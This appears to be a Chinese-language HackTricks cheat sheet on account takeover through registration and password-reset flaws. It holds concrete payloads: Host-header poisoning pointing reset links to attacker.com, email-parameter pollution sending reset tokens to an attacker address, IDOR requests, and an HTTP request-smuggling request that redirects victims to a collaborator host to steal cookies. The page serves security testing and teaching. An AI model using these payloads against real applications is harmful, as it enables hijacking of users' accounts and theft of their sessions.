 # 注册与接管漏洞

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}


## 注册接管

### 重复注册

* 尝试使用现有用户名生成
* 检查不同的电子邮件：
* 大写字母
* \+1@
* 在电子邮件中添加一些点
* 电子邮件名称中的特殊字符 (%00, %09, %20)
* 在电子邮件后放置黑色字符：`test@test.com a`
* victim@gmail.com@attacker.com
* victim@attacker.com@gmail.com

### 用户名枚举

检查您是否可以确定用户名是否已在应用程序中注册。

### 密码策略

创建用户时检查密码策略（检查您是否可以使用弱密码）。\
在这种情况下，您可以尝试暴力破解凭据。

### SQL 注入

[**查看此页面**](sql-injection/#insert-statement)以了解如何通过 **SQL 注入** 在注册表单中尝试账户接管或提取信息。

### Oauth 接管

{% content-ref url="oauth-to-account-takeover.md" %}
[oauth-to-account-takeover.md](oauth-to-account-takeover.md)
{% endcontent-ref %}

### SAML 漏洞

{% content-ref url="saml-attacks/" %}
[saml-attacks](saml-attacks/)
{% endcontent-ref %}

### 更改电子邮件

注册后尝试更改电子邮件，并检查此更改是否得到正确验证，或是否可以更改为任意电子邮件。

### 更多检查

* 检查您是否可以使用 **一次性电子邮件**
* **长** **密码** (>200) 导致 **DoS**
* **检查账户创建的速率限制**
* 使用 username@**burp\_collab**.net 并分析 **回调**

## **密码重置接管**

### 通过引荐人泄露密码重置令牌 <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. 请求将密码重置发送到您的电子邮件地址
2. 点击密码重置链接
3. 不要更改密码
4. 点击任何第三方网站（例如：Facebook，Twitter）
5. 在 Burp Suite 代理中拦截请求
6. 检查 referer 头是否泄露密码重置令牌。

### 密码重置中毒 <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. 在 Burp Suite 中拦截密码重置请求
2. 在 Burp Suite 中添加或编辑以下头部：`Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. 转发带有修改头部的请求\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. 查找基于 _host 头_ 的密码重置 URL，例如：`https://attacker.com/reset-password.php?token=TOKEN`

### 通过电子邮件参数重置密码 <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR on API Parameters <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. 攻击者必须使用他们的账户登录并进入**更改密码**功能。
2. 启动Burp Suite并拦截请求
3. 将其发送到重发器选项卡并编辑参数：用户ID/电子邮件\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### Weak Password Reset Token <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

密码重置令牌应该是随机生成并且每次都是唯一的。\
尝试确定令牌是否过期或是否总是相同，在某些情况下，生成算法较弱并且可以被猜测。以下变量可能被算法使用。

* 时间戳
* 用户ID
* 用户的电子邮件
* 名字和姓氏
* 出生日期
* 加密
* 仅数字
* 小令牌序列（字符在\[A-Z,a-z,0-9]之间）
* 令牌重用
* 令牌过期日期

### Leaking Password Reset Token <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. 使用API/UI触发特定电子邮件的密码重置请求，例如：test@mail.com
2. 检查服务器响应并查看`resetToken`
3. 然后在URL中使用令牌，例如`https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### Password Reset Via Username Collision <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. 使用与受害者用户名相同的用户名在系统中注册，但在用户名前后插入空格。例如：`"admin "`
2. 使用您的恶意用户名请求密码重置。
3. 使用发送到您电子邮件的令牌重置受害者密码。
4. 使用新密码连接到受害者账户。

平台CTFd对该攻击存在漏洞。\
见：[CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Account Takeover Via Cross Site Scripting <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. 在应用程序或子域中找到XSS，如果cookie的作用域为父域：`*.domain.com`
2. 泄露当前**会话cookie**
3. 使用cookie作为用户进行身份验证

### Account Takeover Via HTTP Request Smuggling <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. 使用**smuggler**检测HTTP请求走私的类型（CL, TE, CL.TE）\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. 构造一个请求，该请求将用以下数据覆盖`POST / HTTP/1.1`：\
`GET http://something.burpcollaborator.net HTTP/1.1 X:`，目的是将受害者重定向到burpcollab并窃取他们的cookie\
3\. 最终请求可能看起来像以下内容
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Hackerone 报告利用此漏洞\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### 通过 CSRF 实现账户接管 <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. 创建 CSRF 的有效载荷，例如：“用于密码更改的自动提交 HTML 表单”
2. 发送有效载荷

### 通过 JWT 实现账户接管 <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token 可能用于验证用户。

* 使用另一个用户 ID / 电子邮件编辑 JWT
* 检查弱 JWT 签名

{% content-ref url="hacking-jwt-json-web-tokens.md" %}
[hacking-jwt-json-web-tokens.md](hacking-jwt-json-web-tokens.md)
{% endcontent-ref %}

## 参考

* [https://salmonsec.com/cheatsheet/account\_takeover](https://salmonsec.com/cheatsheet/account\_takeover)


{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
